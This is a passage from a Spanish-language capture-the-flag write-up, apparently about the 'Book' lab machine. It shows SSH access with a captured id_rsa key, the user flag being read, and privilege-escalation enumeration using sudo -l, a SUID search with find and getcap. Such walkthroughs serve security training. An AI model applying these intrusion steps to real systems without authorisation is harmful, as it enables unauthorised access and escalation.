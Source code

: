 ¡¡Conseguimos la id_rsa!!. De esta manera podremos acceder a la máquina objetivo.

```
> chmod 600 id_rsa
> ssh -i id_rsa reader@10.10.10.176

reader@book:~$ id
uid=1000(reader) gid=1000(reader) groups=1000(reader)
reader@book:~$ ls -l
total 8
drwxr-xr-x 2 reader reader 4096 Jul 20  2021 backups
-r-------- 1 reader reader   33 Jun 13 13:52 user.txt
reader@book:~$ cat user.txt
1540fd27b8a2f478a9f2f**********
```

## Escalada de privilegios.

El archivo backups dentro del home de reader promete, al menos por el nombre.
```
reader@book:~$ cd backups/
reader@book:~/backups$ ls -l
total 4
-rw-r--r-- 1 reader reader  0 Jan 29  2020 access.log
-rw-r--r-- 1 reader reader 91 Jan 29  2020 access.log.1
reader@book:~/backups$ cat *
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
```
No hay mucho más que ver en esta parte. Pero tiene pinta que habrá un proceso relacionado con esto. Seguiré la estructura que suelo seguir para la escalada y llegaré al punto de esos posibles procesos.

```
reader@book:~/backups$ sudo -l
[sudo] password for reader: 

--> Cancelo porque no tengo contraseña.

reader@book:~/backups$ find / \-perm -4000 2>/dev/null | grep -v snap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chfn
/usr/bin/at
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/bin/mount
/bin/umount
/bin/fusermount
/bin/ping
/bin/su

--> Hice grep -v porque snap salía mucho y no creo que hubiera vulns por esa parte

reader@book:~/backups$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
```